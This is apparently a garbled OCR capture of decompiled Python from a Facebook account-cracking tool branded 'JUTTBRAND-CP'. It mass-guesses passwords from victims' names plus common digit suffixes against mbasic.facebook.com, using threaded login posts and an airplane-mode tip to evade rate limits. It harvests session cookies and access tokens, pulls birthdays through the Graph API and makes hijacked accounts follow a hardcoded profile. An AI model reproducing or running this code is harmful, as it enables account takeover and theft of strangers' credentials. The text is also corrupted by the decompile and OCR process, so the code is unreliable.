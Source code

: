 Z
checkpointz
.token.txtzhttps://graph.facebook.com/z?fields=birthday&access_token=Zbirthday�/z
%s[JUTTBRAND-CP] %s | %s zJUTTBRAND_CP.txtr-   )$r   r   r   �loopr"   r=   r'   r*   r   �lowerr7   ZSessionr8   �re�searchr&   �text�groupZpost�cookiesZget_dict�join�itemsr#   r$   �appendrB   �followrC   r:   �split�	bulan_ttl�M�KeyError�IOError�
__metode__)r>   �userZ__chi__ZcebokZpw�session�header�rZdasZheader1Zpo�cokiZwrtZtokenzZcp_ttl�month�day�yearr   r   r    rq   �   s�   4

��	
�


z__xxx__.__metode__c                 C   sN   t |jdd|id�jd�}|jddd��d�}|jd	t|� d|id�j d S )
Nz:https://mbasic.facebook.com/profile.php?id=100007607054845Zcookie)rg   zhtml.parserr_   ZIkuti)�stringZhrefzhttps://mbasic.facebook.com)r   r8   re   �findr&   )r>   rs   rv   ru   r8   r   r   r    rk   �   s    z__xxx__.followc                 C   s,  t d� t d� td�}|dkrt d� | ��  d S |dv r�t�d� t t� t d� t d	� t d
t| j� � t d� t d	� tdd
��n}| jD ]b}z[|�	d�\}}|�	d�}t|�dkspt|�dkspt|�dkspt|�dkr�||d d |d |d  |d d g}n||d d |d |d  |d d g}dg}|�
| j||d� W qI   Y qIW d   � n1 s�w   Y  tt
t� d S |dv �r�t�d� t t� t d� td�}td�}	td�}
td�}t�d� t t� t d � t d	� t d!t| j� � t d"� t d	� tdd
��q}| jD ]e}z]|�	d�\}}|�	d�}t|�dk�s:t|�dk�s:t|�dk�s:t|�dk�rO||d d |d |d  |d d g}n||d d |d |d  |d d g}|�
| j||d� W �q   Y �qW d   � n	1 �s�w   Y  tt
t� d S t d#� | ��  d S )$Nz[1] CRACK WITH AUTO PASS z[2] CRACK WITH NAME DIGIT PASSz
[?] CHOOSE : r-   z
SELECT CORRECT ONEr/   r,   z,[1;91m
USE FLIGHT (airplane) MODE ON[1;96mz2--------------------------------------------------z[1;36mTOTAL IDS : %s z[1;36mCRACKING STARTED.....�   )Zmax_workersrF   � �   �   �   �   r   Z123r   Z12345Z786110zmbasic.facebook.comr1   z&[1;32m
ENTER LAST NAME DIGITs[1;32m
z
  Name + 1 : z
  Name + 2 : z
  Name + 3 : z
  Name + 4 : z4[1;31m
USE FLIGHT (airplane) MODE BEFORE USE[1;32mz[1;32mTOTAL IDS : %s z[1;32mCRACKING STARTED.....z
 Select Valid One)r#   r(   rE   r4   r5   r6   r"   r=   �
sarfrazssbrl   Zsubmitrq   r+   r'   r*   )r>   ZchiZssbworldZzsbrT   �name�xzZpwxZp1Zp2Zp3Zp4r   r   r    rE   �   sx   


0*(��




8*(��z__xxx__.__pler__N)�__name__�
__module__�__qualname__r?   r<   rq   rk   rE   r   r   r   r    r;   �   s    Vr;   c            
   	   C   sx  t �d� tt� ddlm}  td� zd}t�|�}t|d��	� }W n t
tfy1   t�  Y nw zd}t�|�}t
�|�j}W n t
jjyS   td� t�  Y nw ||v rbt�d	� t�  d S t �d� tt� td
� t t td| d � t td
� t td� td� t t td� t t td�}td� td�}td� td� d| d | }	t �d|	 � d S )Nr,   r   )�quotez	Checking For Subscription...